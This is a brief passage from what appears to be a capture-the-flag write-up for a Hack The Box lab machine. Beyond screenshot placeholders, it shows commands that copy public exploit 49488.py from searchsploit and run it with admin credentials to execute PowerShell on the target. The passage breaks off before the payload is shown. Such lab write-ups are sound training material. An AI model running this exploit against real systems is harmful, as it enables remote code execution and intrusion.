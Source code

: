 <figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

then we remember the RCE in searchsploit:

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

```
searchsploit -m aspx/webapps/49488.py
```

downloaded it and looked at the syntax:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

```
python 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.220.71 -c powershell.exe -a "ls C:/"
```

than wrote the payload&#x20;
